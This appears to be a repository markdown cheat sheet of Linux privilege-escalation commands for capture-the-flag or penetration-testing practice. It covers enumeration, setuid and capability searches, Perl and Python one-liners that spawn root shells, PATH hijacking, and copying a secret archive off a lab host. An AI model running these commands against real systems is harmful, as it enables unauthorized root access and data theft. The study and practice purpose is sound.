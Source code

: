 # Linux Priviledge Escalation

------------------------------------------------------

### Initial Commands
`whoami;id`

`cat /etc/passwd`

`sudo -l`

`crontab -l`


### Find Setuid enabled Programs
`find / -perm -u=s -type f 2>/dev/null`

### Capabilities search 
`getcap -r / 2>/dev/null`

### If perl or python have CAP_SETUID capabilities, run following commands and then execute the file(for python)

* Perl: 
`perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

* Python:
`echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py`

### For MySql Service:
Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

### Other useful commands and tips

* `df` - to see free disk space of all mounted devices

* Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

* `export PATH=/tmp:$PATH` 

* `cat ~/.bash_history`

* Always check the home and tmp directories.

scp charix@10.10.10.84:/home/charix/secret.zip .

vncviewer 127.0.0.1:5000 -passwd secret 

ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84  

cat /etc/crontab

### GIT Commands:

# Whenever you see .git files try out these commands 

* `git log`: Display git history
* `git log --oneline` : Display git history with one commit per line
* `git log -p` : Display changes made in files in each commit.
* 


